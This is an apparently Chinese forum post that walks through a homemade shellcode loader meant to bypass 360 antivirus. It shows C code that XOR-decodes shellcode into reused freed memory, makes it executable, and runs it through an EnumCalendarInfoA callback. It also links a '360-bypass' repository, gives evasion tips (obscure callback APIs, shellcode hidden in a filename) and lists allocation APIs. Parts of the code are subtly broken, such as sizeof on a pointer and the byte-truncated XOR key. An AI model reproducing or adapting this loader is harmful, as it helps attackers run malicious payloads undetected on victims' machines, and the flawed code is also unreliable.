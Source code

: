 ```php
```

```php
unsigned char* a = (unsigned char*)malloc(sizeof(bt));
free(a);
unsigned char* b = (unsigned char*)malloc(sizeof(bt));
for (int i = 0; i < (sizeof(bt) / sizeof(bt[0])); i++) {
    b[i] = (unsigned char)(bt[i] ^ 1024);
}
DWORD p;
exchange_(a, sizeof(a), 0x40,&p);
EnumInfoA((CALINFO_ENUMPROCA)a, LOCALE_SYSTEM_DEFAULT, ENUM_ALL_CALENDARS, CAL_ICALINTVALUE);
```

这个我写的加载器，算比较简单吧，就是回调函数执行shellcode，代码中的exchange\_函数和EnumInfoA函数是之前typedef定义好的，  
我们申请了a和b两个内存，释放了a，因为UAF（上面解释得有），虽说a释放了，但a的值却和b相同，所以我们把之前存到bt数组里的shellcode异或解密并且强制类型转换成unsigned char类型写入b内存里

随后用exchange*(virtualprotect)这个函数把a内存属性改为可执行，exchange*(a, sizeof(a), 0x40,&amp;p); 然后利用回调函数执行a(因为a和b的值是相同的)

![c++.PNG](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d5924251a706b5c37b3673bd86611946e569b1b1.png)  
这是EnumCalendarInfoA函数的参数，只有第一个参数是重要的，回调函数（其实就是函数指针），其余参数跟着文档填即可（这种函数很多，师傅们多找找一些知名度低的，免杀效果会好不少的喔！）

完整代码
====

完整代码我发在了github平台上，地址https://github.com/wz-wsl/360-bypass

结尾
==

**一个小思路**：  
windows有个api叫PathFindFileName，作用是获取当前程序的名字，这里我们可以把名字换成shellcode，利用这个api获取shellcode，不过需要注意的是windows下文件名最长为260个字符，所以我们可以把一半shellcode当成文件名，剩下的shellcode就利用其它方法呀

这里我收集了一些申请内存的api  
GlobalAlloc  
CoTaskMemAlloc  
HeapAlloc  
RtlCreateHeap  
VirtualAlloc  
VirtualAllocEx  
ReallocADsMem AllocADsMem  
CoTaskMenAlloc

希望能帮到师傅们！